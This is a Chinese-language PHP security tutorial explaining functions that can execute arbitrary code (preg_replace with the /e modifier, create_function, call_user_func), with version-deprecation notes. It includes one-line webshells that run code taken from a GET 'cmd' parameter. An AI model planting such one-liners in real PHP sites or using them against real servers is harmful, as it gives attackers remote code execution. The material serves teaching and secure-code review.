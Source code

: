 ### preg_replace函数
`preg_replace(mixed $pattern，mixed $replacement，mixed $subject[，int $limit = -1 [,int &$count]]):mixed`
preg_replace执行一个正则表达式的搜索和替换，当$pattern为/e，会把replacement参数当成PHP代码执行
```php
<?php
preg_replace("/test/e","phpinfo();","test");
?>
```
注： PHP 5.5.0 起， 传入 "\e" 修饰符的时候，会产生一个 E_DEPRECATED 错误； PHP 7.0.0 起，会产生 E_WARNING 错误，同时 "\e" 也无法起效。 
<br/>

### create_function函数
`string create_function ( string $args， string $code )`
创建一个匿名函数，create_function函数会在内部执行eval()
```php
<?php
$newfunc = create_function('$a,$b', 'return "$a + $b = " . ($a + $b);');
echo $newfunc(1,2) . "\n"; // 1+2=3
?>
```

等价于

```php
<?php 
function lambda($a,$b){ 
	return "$a+$b = ".($a+$b); 
}
echo lambda(1,2); 
?>
```

可以利用该函数构造webshell，`?cmd=phpinfo();`
```php
<?php $func =create_function('',$_GET['cmd']);$func();?> 
```
注：从PHP 7.2.0开始，create_function()被废弃
<br/>

### call_user_func函数
` call_user_func ( callable $callback [, mixed $parameter [, mixed $... ]] ) : mixed`
call_user_func 第一个参数 callback 是被调用的回调函数，其余参数是回调函数的参数。 
```php
<?php
    $callback= 'system';
    $parameter = 'ls';
    call_user_func($callback, $parameter); //system("ls")
?>
```
利用方式：`?cmd=phpinfo()`
```php
<?php call_user_func(assert,$_GET['cmd']); ?>
```
<br/>
